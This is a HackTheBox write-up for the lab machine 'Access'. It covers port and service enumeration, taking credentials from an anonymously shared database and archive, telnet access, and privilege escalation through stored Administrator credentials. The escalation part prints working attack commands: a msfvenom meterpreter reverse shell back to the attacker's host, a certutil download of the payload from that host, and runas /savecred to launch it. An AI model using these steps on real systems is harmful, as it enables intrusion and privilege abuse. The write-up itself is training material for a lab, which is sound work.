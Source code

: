 # **Access - HackTheBox Lab**

**Date:** 2024-12-08  
**Target:** `10.10.10.98`  

## **Scope**

The goal is to enumerate the target, identify vulnerabilities, gain access, and escalate privileges.

---

## **Gaining Access**

### **Ports Enumeration**

1. **Initial Full Port Scan**  
   I ran a full TCP port scan to identify all open ports:
   ```bash
   nmap -A -p- -iL target -v
   ```
   Results revealed three open ports:  
   - **Port 21:** FTP (Microsoft ftpd)  
   - **Port 23:** Telnet  
   - **Port 80:** HTTP (Microsoft IIS httpd 7.5)

2. **Targeted Port Scan**  
   To gather detailed information, I performed an aggressive scan against the identified ports:
   ```bash
   nmap -A -p21,23,80 -iL target -v -oN target_ports.txt
   ```
   Key findings included:  
   - FTP allows **anonymous login** but restricts directory listing.
   - HTTP server runs **Microsoft IIS 7.5**, hosting a simple web page.
   - Telnet prompts for login credentials.

---

### **HTTP Enumeration**

1. **Web Server Overview**  
   The HTTP server displayed a static page with the title "MegaCorp." Server headers identified it as **Microsoft IIS 7.5** running ASP.NET.

2. **Search for Vulnerabilities**  
   Using `searchsploit`, I looked for potential exploits:
   ```bash
   searchsploit iis 7.5
   ```
   No critical vulnerabilities directly applicable to the setup were identified.

3. **Directory Brute-Forcing with `ffuf`**  
   A brute-force directory scan using `ffuf` yielded no additional paths.

4. **Nikto Scan**  
   A `nikto` scan highlighted several informational findings, including:
   - Missing `X-Frame-Options` and `X-Content-Type-Options` headers.
   - Supported HTTP methods: `OPTIONS, TRACE, GET, HEAD, POST`.

---

### **Telnet Enumeration**

1. **Login Prompt**  
   Attempting to connect:
   ```bash
   telnet 10.10.10.98 23
   ```
   This revealed a **Microsoft Telnet Service** requiring credentials.

2. **Nmap Telnet Script Scan**  
   Using Nmap scripts for Telnet:
   ```bash
   nmap -n -sV -Pn --script "*telnet* and safe" -p 23 $(cat target)
   ```
   The scan revealed additional information:
   - **Host Name:** ACCESS

---

### **FTP Enumeration**

1. **Access FTP Server**  
   Anonymous login was enabled:
   ```bash
   ftp -a 10.10.10.98
   ```
   Inside the FTP server, I discovered two files:  
   - `backup.mdb` (Microsoft Access Database)  
   - `Access Control.zip` (Password-protected ZIP file)

2. **Download Files**  
   To download the files:
   ```bash
   bin
   get backup.mdb
   get "Access Control.zip"
   ```

   ![image](https://github.com/user-attachments/assets/95c46133-1ab3-4af9-b701-65e5696af23f)

3. **Analyze Database File**  
   Using `mdb-tools`, I extracted tables from the `.mdb` file:
   ```bash
   mdb-tables backup.mdb | sed 's/ /\n/g' > tables
   ```
   The `auth_user` table contained credentials, which I exported:
   ```bash
   mdb-export backup.mdb auth_user > auth_user.csv
   ```
   
   ![image](https://github.com/user-attachments/assets/b49f3d06-3df1-4b63-900d-96555d817181)

4. **Decrypt ZIP File**  
   One password from the `auth_user` table successfully decrypted `Access Control.zip`:
   ```bash
   7z x "Access Control.zip"
   ```
   This extracted a `.pst` file (Microsoft Outlook Data File).

5. **Converted pst file to mbox**
   To convert a pst file to mbox I ran:
   ```bash
   readpst "Access Control.pst"
   ```
6. **Gain Access**
   Reading the mbox file I found the user credential.
   I used telnet to test them and I gain access on the target machine, obtaining the user flag.

7. **Automate**
   You can retrive the user credential easily by running the following script: [access.sh](https://github.com/spread0942/htb_walkthrough/blob/main/machines/access/access.sh)
   ```bash
   wget https://raw.githubusercontent.com/spread0942/htb_walkthrough/refs/heads/main/machines/access/access.sh
   chmod 755 access.sh
   ./access.sh
   ```

---

## **Privilege Escalation**

1. **System Information**  
   Running `systeminfo`:
   ```cmd
   systeminfo
   ```
   Identified:
   - **OS:** Windows Server 2008 R2 Standard  
   - **Hotfixes:** Multiple missing patches (potential vulnerabilities).  

2. **Exploit Preparation**  
   I notice Administrative credential saved on the target machine by running:
   ```cmd
   cmdkey /list
   ```
   
   ![image](https://github.com/user-attachments/assets/952e395b-1361-4ff0-a317-59b06b60500a)

   I prepared a reverse shell payload using `msfvenom`:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=2323 -f exe > p.exe
   ```

3. **File Transfer**  
   Using `certutil`, I transferred the payload to the victim machine:
   ```cmd
   cd %TEMP%
   certutil -urlcache -f "http://10.10.16.9:9878/p.exe" p.exe
   ```

4. **Open Listener**  
   On my local machine, I started a listener with `msfconsole`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 10.10.16.9
   set LPORT 2323
   run
   ```
5. **Execute Payload**  
   I used stored credentials to run the payload with administrative privileges:
   ```cmd
   runas /savecred /user:ACCESS\Administrator p.exe
   ```
   I got the shell and the root flag.

---

## **Resources**

- [Kali - MDB Tools](https://www.kali.org/tools/mdbtools/)  
- [Kali - libpst](https://www.kali.org/tools/libpst/)  
- [Windows Privilege Escalation Notes](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md)

---
